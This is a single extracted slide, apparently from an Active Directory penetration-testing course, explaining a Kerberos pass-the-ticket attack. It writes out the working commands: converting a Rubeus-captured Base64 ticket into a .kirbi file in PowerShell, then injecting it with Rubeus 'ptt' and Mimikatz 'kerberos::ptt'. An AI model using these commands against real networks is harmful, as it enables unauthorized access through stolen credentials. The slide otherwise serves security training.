

# PASS THE TICKET
Passing the Kerberos ticket, authenticating and accessing its resources

C o n v e r t	t h e	B a s e 6 4	t i c k e t	c a p t u r e d	b y	R u b e u s	t o	k i r b i	f i l e
[ I O . F i l e ]:: W r i t e A l l B y t e s ( " C : \ U s e r s \ p w n d . u s e r \ D e s k t o p \ AD - To o l s \ a d m i n . k i r b i " ,
[ C o n v e r t ] : : F r o m B a s e 6 4 S t r i n g ( “ d o I F … . = = “ ) )

P a s s	t h e	Ti c k e t	u s i n g	R u b e u s
R u b e u s . e x e	p t t	/ t i c k e t : a d m i n . k i r b i

P a s s	t h e	Ti c k e t	u s i n g	M i m i k a t z
K e r b e r o s : : p t t	C: \ U s e r s \ p w n d . u s e r \ D e s k t o p \ AD - To o l s \ a d m i n . k i r b i
217